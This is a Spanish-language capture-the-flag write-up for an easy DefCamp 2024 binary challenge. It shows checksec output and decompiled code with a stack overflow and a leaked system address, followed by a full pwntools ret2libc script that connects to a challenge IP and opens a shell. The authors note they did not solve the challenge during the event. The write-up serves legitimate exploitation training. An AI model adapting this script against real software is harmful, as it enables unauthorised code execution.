 ```yaml
---
date: 
tier: 
author: 
platform:
---
```

# Overview

Este es un reto de la DefCamp CTF de 2024, catalogado como *Easy*. En él nos aprovecharemos de un leak en la Libc para llamar a *system*.

# Reconocimiento

Comenzamos lanzando [[checksec]]:

```
	Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

Vemos que tenemos arquitectura de 32 bits y prácticamente no hay protecciones. Si descompilamos con [[ghidra]], veremos que el código es bastante simple:

```c
int main(void) {
  login();
  return 0;
}

void login() {

  size_t fin_variable;
  int iVar1;
  char password [32];
  char username [32];
  int local_10;
  
  local_10 = 0;
  puts("220 FTP Service Ready");
  printf("USER ");
  fgets(username,0x20,_stdin);
  fin_variable = strcspn(username,"\n");
  username[fin_variable] = '\0';
  puts("331 Username okay, need password.");
  printf("[DEBUG] Password buffer is located at: %lp\n",system);    // Leak de system en libc
  printf("PASS ");
  fgets(password,100,_stdin);                                       // Buffer Overflow
  iVar1 = strcmp(username,"admin");
  if (iVar1 == 0) {
    iVar1 = strcmp(password,"password123\n");
    if (iVar1 == 0) {
      local_10 = 1;
    }
  }
  if (local_10 == 0) {
    puts("530 Login incorrect.");
  }
  else {
    puts("230 User logged in, proceed.");
  }
  return;
}
```

Vemos que el propio program en una línea de "debug" nos da la dirección de *system* en Libc.

# Explotación

Teniendo dicha dirección, sólo debemos encontrar el offset hasta la dirección base para poder calcular la dirección de una string `"/bin/sh"`. Para ello, debemos capturar el leak del servidor e introducirlo en [libc-database](https://libc.rip/), que nos dirá que la versión es la `./libc6_2.35-0ubuntu3.7_i386.so`, también nos dará el offset hasta `"/bin/sh"`, con lo que podremos construir nuestro script:

```python
#! /bin/python3
# -*- coding: utf-8 -*-

from pwn import *

libc = ELF("./libc6_2.35-0ubuntu3.7_i386.so")

def start():
    if args.REMOTE:
        return remote('34.89.166.46', 30379  )

    else: return process('./ftp_server')
    

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX unknown - GNU_STACK missing
# PIE:        No PIE (0x8048000)
# Stack:      Executable
# RWX:        Has RWX segments
# Stripped:   No

io = start()

io.recvuntil(b"USER ")
io.sendline(b"admin")

io.recvuntil(b"ed at:")
system = io.recvline().strip()
system = int(system, 16)
log.success(f"System {hex(system)}")


libc_base = system - libc.sym["system"]
bin_sh = libc_base + 0x1bd0d5    # Offset hasta "/bin/sh"

log.success(f"Libc {hex(libc_base)}")
log.success(f"bin_sh {hex(bin_sh)}")

io.recvuntil(b"PASS")

payload = b"A"*80
payload += p32(system)
payload += p32(0xdeadbeef)  # Funcion a la que llama "system al salir", puede ser cualquier cosa
payload += p32(bin_sh)

log.info(f"Payload: {payload}")

io.sendline(payload)

io.interactive()
```

Un reto que es sencillo, pero que tras varias respuestas erróneas de las bases de datos de libcs, no pudimos sacar.